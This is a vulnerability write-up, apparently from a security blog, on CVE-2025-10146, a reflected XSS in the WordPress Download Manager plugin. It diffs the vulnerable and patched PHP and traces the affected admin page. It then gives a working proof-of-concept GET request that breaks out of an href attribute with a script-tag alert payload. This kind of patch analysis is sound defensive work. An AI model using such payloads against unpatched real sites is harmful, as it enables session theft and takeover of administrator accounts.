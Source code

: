 ```yaml
---
title: CVE-2025-10146 Analysis & POC
description: Security Vulnerability in WordPress Download Manager Plugin.
date: 2025-10-06 19:18:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, xss]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

A vulnerability exists in the **Download Manager** plugin prior to version **3.3.24**. Data retrieved from **GET** requests is printed directly into **HTML attributes**, leading to **reflected XSS** when a user with privileges accesses a URL crafted by an attacker.

* **CVE ID**: [CVE-2025-10146](https://www.cve.org/CVERecord?id=CVE-2025-10146)
* **Product**: [WordPress Download Manager Plugin](https://wordpress.org/plugins/download-manager)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 3.3.23
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Download Manager**: v3.3.23(vulnerable) and v3.3.24(fixed)
* **diff tool**: **meld** or any tool capable of comparing differences between two versions

## Analysis

### Patch Diff

Use any diff tool to compare the vulnerable and patched versions. A significant difference appears in **src/Admin/views/stats/history.php**.

**Vulnerable code**:

```php
<?php if (!empty($user_ids)): ?>
    <div class="clear-filter">
        <?php
        $get_params_xu = $get_params;
        unset($get_params_xu['user_ids']);
        $reset_url = add_query_arg($get_params_xu, 'edit.php');
        ?>
        <a href="<?php echo $reset_url; ?>" class="clear-btn" title="<?php _e('Clear user filter', 'download-manager'); ?>">
            <i class="fas fa-times"></i>
        </a>
    </div>
<?php endif; ?>
```

The **GET parameters** are directly assigned to the `<a>` element's **href** without any protection, creating a risk of **reflected XSS**.

**Patched code**:

```php
<?php if (!empty($user_ids)): ?>
    <div class="clear-filter">
        <?php
        $get_params_xu = $get_params;
        unset($get_params_xu['user_ids']);
        $get_params_xu = \WPDM\__\__::sanitize_array($get_params_xu, 'safetxt');

        $reset_url = add_query_arg($get_params_xu, 'edit.php');
        ?>
        <a href="<?php echo esc_url($reset_url); ?>" class="clear-btn" title="<?php _e('Clear user filter', 'download-manager'); ?>">
            <i class="fas fa-times"></i>
        </a>
    </div>
<?php endif; ?>
```

![Patch Diff](patch_diff.png "Patch Diff: sanitized GET parameters and escaped URL")

The patch **sanitizes** the **GET parameters** using `sanitize_array` and uses `esc_url` to **escape the URL**, making it safe.

### How It Works

We need to identify the real URL to inject GET parameters containing the XSS payload.

**src/Admin/views/stats/history.php** contains PHP and HTML tags inside the **views** folder, indicating it is included somewhere in the plugin.

Searching for `history.php` in the plugin directory:

![Search 1](search1.png "Search results for history.php")

👉 No direct matches are found. It is likely included dynamically like `{$file_name}.php`. Using regex `\{.*\}\.php`:

![Regex](regex.png "Regex search for dynamic includes")

**src/Admin/views/stats/history.php** is included in **src/Admin/views/stats.php**.

The actual URL to access is declared at the top of **stats.php**:

```
$base_page_uri = "edit.php?post_type=wpdmpro&page=wpdm-stats";
```

Similarly, **stats.php** is also included elsewhere, but it’s not necessary to trace further since the URL is identified.

To verify, we set a **breakpoint** in **src/Admin/views/stats/history.php**, start debugging, and access the URL:

```
edit.php?post_type=wpdmpro&page=wpdm-stats
```

![Debug](debug.png "Breakpoint debugging to observe GET params")

First, the plugin collects all **GET parameters** into `$get_params`.

If `$user_ids` is not empty, a **“Clear filter” button** is created. To make the button functional, it must generate a URL without the `user_ids` parameter:

```php
$get_params_xu = $get_params;        // copy all GET parameters
unset($get_params_xu['user_ids']);   // remove user_ids from array
$reset_url = add_query_arg($get_params_xu, 'edit.php'); // generate new URL
```

* `unset($get_params_xu['user_ids'])` removes the filter.
* `add_query_arg($get_params_xu, 'edit.php')` generates the URL with remaining parameters.

This URL is attached to the “Clear filter” button:

```php
<a href="<?php echo $reset_url; ?>" class="clear-btn">...</a>
```

**Result:** Clicking the button reloads the page without the `user_ids` filter.

## Exploit

### Detect XSS

Send a GET request containing the XSS payload:

```http
GET /wp-admin/edit.php?post_type=wpdmpro&page=wpdm-stats&user_ids[0]=1&payload="></a><script>alert(document.domain)</script> HTTP/1.1
```

The `"></a>` closes the `<a>` tag, followed by a `<script>` to trigger `alert()`.

![XSS](xss.png "Reflected XSS triggered via GET parameter")

👉 XSS succeeds. When a user with privileges accesses the attacker-provided URL, **reflected XSS** occurs, simulating an **Unauthenticated attack** scenario.

## Conclusion

The vulnerability **CVE-2025-10146** in **WordPress Download Manager <= 3.3.23** is a **reflected XSS**, occurring when **GET request** data is printed directly into an **HTML attribute** without sanitization or escaping. Privileged users accessing the attacker-crafted URL may be exploited.

The patch in **3.3.24**:

1. **Sanitizes GET parameters** (`sanitize_array`) to remove dangerous characters.
2. **Escapes URL** (`esc_url`) before rendering in HTML to prevent XSS.

**Key takeaways**:

* Always **sanitize and escape user input** before rendering in HTML.
* Check **user permissions** before processing or displaying sensitive data.
* Low-privilege roles (like contributor) can become attack vectors if the plugin does not enforce proper protections.
* Updating plugins regularly is a simple and effective defense.

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Download Manager Plugin <= 3.3.24 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/download-manager/vulnerability/wordpress-download-manager-plugin-3-3-23-reflected-cross-site-scripting-via-user-ids-parameter-vulnerability)
